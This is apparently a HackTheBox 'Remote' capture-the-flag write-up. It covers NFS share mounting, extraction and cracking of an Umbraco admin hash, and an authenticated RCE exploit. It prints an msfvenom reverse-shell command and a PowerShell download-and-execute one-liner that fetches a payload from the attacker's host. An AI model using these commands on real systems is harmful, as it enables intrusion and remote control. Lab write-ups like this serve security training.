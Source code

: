 ```yaml
---
title: HackTheBox Remote Writeup
published: true
---
```


> ![logo](https://i.ibb.co/P9ByhXj/logo.png)

# []() Methodology

* Nmap scan
* find some mounted files.
* find username and password of Umbraco cms
* Execute command with Umbraco exploit and got reverse shell.
* got user.
* Privilege Escalation.

# []() Nmap Scan

* as always, i'll do nmap scan to find out which services running in this machine.

> i found some useful ports like 21 for ftp and **Anonymous FTP login allowed**, 80 for **Microsoft HTTPAPI**.

> **nmap -sC -sV -p- -oN scan.txt 10.10.10.180**

```ruby

Nmap scan report for 10.10.10.180
Host is up (0.44s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m36s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-10T20:52:24
|_  start_date: N/A


```

# []() FTP Anonymous Login

> **first thing we should login to ftp and catch any important files but i didn't find anything.**

| Command        | Username          | Password |
|:-------------|:------------------|:------|
| ftp 10.10.10.80           | anonymous | anonymous  |

![ftp](https://i.ibb.co/1sr2KmP/ftp.png)

# []() Checking the Web-Page

* the web page was very simple and contain some useful data like usernames.

![](https://i.ibb.co/tZtRStB/webpage1.png)

* and here's some usernames.

![](https://i.ibb.co/VYL2nQH/wbpage2.png)

* as always i tried to bruteforce the username and password for the smb but i failed so let's enumerate some.

* when i ran gobuster i found an dir for umbraco cms.

> **gobuster dir -u http://10.10.10.180/ -w /usr/share/dirb/wordlists/common.txt -s 200**

![gobuster](https://i.ibb.co/db7f3xZ/gobuster.png)

* and here is the cms login page.

![cms](https://i.ibb.co/ZmTHzBg/cms.png)

* this cms vulnerable to auth RCE so we need some credentials.

> after enumerated some mounted files from the machine i found the user and the password.

| Command1        | Command2          | Command3 |
|:-------------|:------------------|:------|
| /usr/sbin/showmount -e 10.10.10.180           | mkdir mounted_files | sudo mount 10.10.10.180://site_backups ./mounted_files  |

![](https://i.ibb.co/wyKCwdn/mount.png)

> **in the Web.config file, i noticed the connection date will be stored in the Umbraco.sdf.**

![](https://i.ibb.co/w4W9x6c/subl.png)

* let's see what is in Umbraco.sdf. this file in App_Data dir.

![](https://i.ibb.co/m8v96XX/admin.png)


| Username        | Email          | Password |
|:-------------|:------------------|:------|
| admin          | admin@htb.local | b8be16afba8c314ad33d812f22a04991b90e2aaa  |

* the password encrypted with SHA1. let's decrypt it.

![](https://i.ibb.co/ZW3fNL2/password.png)

* Password: **baconandcheese**

* let's login to the cms panel.

![](https://i.ibb.co/wpVjHSv/cmspage.png)

* now we can use this [Umbraco-RCE Exploit](https://github.com/noraj/Umbraco-RCE.git) to get reverse shell.

* let's test the exploit.

* first we need a reverse shell to upload it to the machine to give us reverse shell.

> **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=HOST LPORT=PORT -f psh -o reverse-shell.ps1**

* now let's upload our reverse shell to the machine with the exploit.

> **./umbraco_cve.py -u admin@htb.local -p baconandcheese -i 'http://remote.htb' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.xx.xx:80/reverse.ps1')"**

![reverse-shell](https://i.ibb.co/BTq01sQ/reverse-shell.png)

* and we got user flag.

* after some enumeration i found that TeamViewer was installed in this box. so run this command in the meterpreter session.

* here's the administrator password.

![](https://i.ibb.co/JKYhsvG/root.png)

* there is another way to get root with UsoSvc service and you can read about it from here. [hacktricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

* let's login as administrator now with evil-winrm.

![](https://i.ibb.co/yqz7qKC/final.png)

* Thanks for reading.
* Cheers!

<script src="https://www.hackthebox.eu/badge/103789"></script>








